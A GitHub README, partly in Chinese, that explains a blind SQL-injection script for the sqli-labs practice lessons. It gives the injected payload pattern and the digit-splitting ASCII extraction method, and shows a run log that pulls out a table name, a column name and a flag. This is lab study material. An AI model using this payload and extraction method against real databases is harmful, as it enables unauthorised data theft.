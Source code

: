 # some_scripts
some common-used scripts
一些常用的脚本

## boolean_sqli_exp.py
sqli-lab less60之后的盲注脚本


**注入原理**


0. MYSQL提供字符串切片操作，如

```sql
# mysql> select ascii('1'), (select substring(ascii('1'),1,1)), (select substring(ascii('1'),2,1));
# +------------+------------------------------------+------------------------------------+
# | ascii('1') | (select substring(ascii('1'),1,1)) | (select substring(ascii('1'),2,1)) |
# +------------+------------------------------------+------------------------------------+
# |         49 | 4                                  | 9                                  |
# +------------+------------------------------------+------------------------------------+
```

1. id=1到id=12都有值，且值不同；可参考源码中的`["Dumb","Angelina","Dummy","secure","stupid","superman","batman","admin","admin1","admin2","admin3","dhakkan","admin4"]`，因此可根据页面内容反推id， 例如当页面出现admin2，就知道id=9

2. 因此，使用分段带出ascii码值的方式注入，即将每一个字符的ascii值分成百位、十位、个位，每一位范围都是0~9，记为QUERY_ID

3. 当请求`id=('') or id=(QUERY_ID)`，数据库会执行注入的查询语句，我们可根据页面的回显确定QUERY_ID是多少，即字符ascii值的每一位数字是多少。

4. 本方法降低运算量至3次。实际上，本关130次的限制是怎么来的呢？
```markdown
表名：len('P79FGLN0JK') = 10， 
列名：len('secret_Y1P6')= 11，
flag：len('uwpeCvsrLcadsa8P7wSn9Ix4') =24*
访问次数 = (10+11+24)x3 = 125 < 130
```
所以，我更加确定这是作者想要我们使用的方法

5. 附录常见注入算法的复杂度

```markdown
|算法|复杂度|
|逐位比较|理论128次|
|位运算|理论8次|
|二分法|理论8次|
|本方法|理论3次|
```
我们一位、一位地跑出结果，以获取得到第3位字母'c'为例，其十进制的ascii值
利用ascii(substring(query,3,1))中

**运行结果**

```
markdown
boolean_sqli_exp.py'
[-]current content is:L
[-]current content is:LR
[-]current content is:LR2
[-]current content is:LR20
[-]current content is:LR20P
[-]current content is:LR20PA
[-]current content is:LR20PAL
[-]current content is:LR20PALH
[-]current content is:LR20PALHC
[-]current content is:LR20PALHCD
[-]table_name is:LR20PALHCD
[-]current content is:s
[-]current content is:se
[-]current content is:sec
[-]current content is:secr
[-]current content is:secre
[-]current content is:secret
[-]current content is:secret_
[-]current content is:secret_D
[-]current content is:secret_DO
[-]current content is:secret_DOY
[-]current content is:secret_DOYB
[+]column_name is:secret_DOYB
[-]current content is:J
[-]current content is:Jl
[-]current content is:Jll
[-]current content is:Jll9
[-]current content is:Jll98
[-]current content is:Jll98P
[-]current content is:Jll98PQ
[-]current content is:Jll98PQ8
[-]current content is:Jll98PQ8U
[-]current content is:Jll98PQ8Uy
[-]current content is:Jll98PQ8Uyk
[-]current content is:Jll98PQ8Uyka
[-]current content is:Jll98PQ8Uykak
[-]current content is:Jll98PQ8Uykakv
[-]current content is:Jll98PQ8Uykakvp
[-]current content is:Jll98PQ8Uykakvpy
[-]current content is:Jll98PQ8Uykakvpyc
[-]current content is:Jll98PQ8Uykakvpyc9
[-]current content is:Jll98PQ8Uykakvpyc9S
[-]current content is:Jll98PQ8Uykakvpyc9SP
[-]current content is:Jll98PQ8Uykakvpyc9SPs
[-]current content is:Jll98PQ8Uykakvpyc9SPst
[-]current content is:Jll98PQ8Uykakvpyc9SPstP
[-]current content is:Jll98PQ8Uykakvpyc9SPstPB
[+]FLAG is:Jll98PQ8Uykakvpyc9SPstPB
```
